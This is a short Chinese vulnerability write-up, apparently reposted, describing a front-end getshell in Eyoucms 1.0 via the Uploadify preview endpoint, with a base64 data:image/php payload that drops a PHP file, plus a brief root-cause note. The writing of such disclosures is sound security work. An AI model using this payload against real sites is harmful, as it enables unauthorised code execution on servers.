 # Eyoucms 1.0 前台 getshell

> 原文：[http://book.iwonder.run/0day/Eyoucms/eyoucms1.0 前台 getshell.html](http://book.iwonder.run/0day/Eyoucms/eyoucms1.0 前台 getshell.html)

## 一、漏洞简介

官网：[http://www.eyoucms.com/download/](http://www.eyoucms.com/download/) Cms 下载地址：[http://www.eyoucms.com/eyoucms1.0.zip](http://www.eyoucms.com/eyoucms1.0.zip)

## 二、漏洞影响

## 三、复现过程

老样子：先讲如何利用

```
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

构造: <?php phpinfo; 
```

![image](img/718c90973dd90c3d10b2dd7789c67581.png)

```
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw== 
```

![image](img/bd1dd661b57a3f1b6475664de282f24f.png)

Shell: [http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php](http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php)

![image](img/7dce1f9a0bdbebf03e6cebbbd29a90c9.png)

![image](img/a151ee654c3b674ce769f0c31417250f.png)

### 原理分析

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php 漏洞函数：preview()

![image](img/66ee1d5de7dee4d55b6d1696eef69c2c.png)

![image](img/9f81b11b5d0d952ec33fa28233c103e1.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？ 带着这个问题我去问了一下加的 php 群的一些程序员 他们很惊讶的 表示 data:image/ 居然还可以不是图片？ 好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为 data:image/ 只能是图片。

## 四、参考链接

> [https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh](https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh)

